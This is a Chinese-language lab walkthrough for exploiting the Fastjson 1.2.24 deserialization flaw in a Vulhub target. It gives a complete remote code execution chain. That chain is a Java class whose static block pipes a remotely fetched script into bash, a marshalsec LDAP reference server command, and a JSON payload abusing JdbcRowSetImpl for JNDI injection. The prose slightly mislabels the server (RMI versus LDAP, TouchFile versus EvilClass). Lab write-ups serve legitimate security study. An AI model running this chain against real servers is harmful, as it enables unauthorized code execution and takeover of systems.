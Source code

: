 # vulhb-fastjson-1.2.24-rce

## 考点

- Fastjson反序列化

## WalkThrough

因为目标环境是Java 8u102，没有`com.sun.jndi.rmi.object.trustURLCodebase`的限制，我们可以使用`com.sun.rowset.JdbcRowSetImpl`的利用链，借助JNDI注入来执行命令。

[c0ny1/FastjsonExploit: Fastjson vulnerability quickly exploits the framework（fastjson漏洞快速利用框架） (github.com)](https://github.com/c0ny1/FastjsonExploit)

> LDAP远程类加载仅使用与Java 8u191

首先编译并上传命令执行代码，如`http://evil.com/EvilClass.class`：

```java
// javac EvilClass.java

public class EvilClass {
    static {
        try {
            Runtime.getRuntime().exec(new String[]{"bash","-c","curl 192.168.209.1:4444/a.sh|bash"});
        } catch (Exception e) {
            // 忽略错误，在生成生成序列化代码时也会执行static部分，必然报错，直接跳过即可
        }
    }
}
```

然后我们借助[marshalsec](https://github.com/mbechler/marshalsec)项目，启动一个RMI服务器，监听9999端口，并制定加载远程类`TouchFile.class`：

```shell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.209.1:4444/#EvilClass 1389
```

向靶场服务器发送Payload，带上LDAP的地址：

```json
{
    "b":{
        "a":{
            "@type":"java.lang.Class",
            "val":"com.sun.rowset.JdbcRowSetImpl"
        },
        "b":{
            "@type":"com.sun.rowset.JdbcRowSetImpl",
            "dataSourceName":"ldap://192.168.209.1:1389/EvilClass",
            "autoCommit":true
        }
    }
}
```
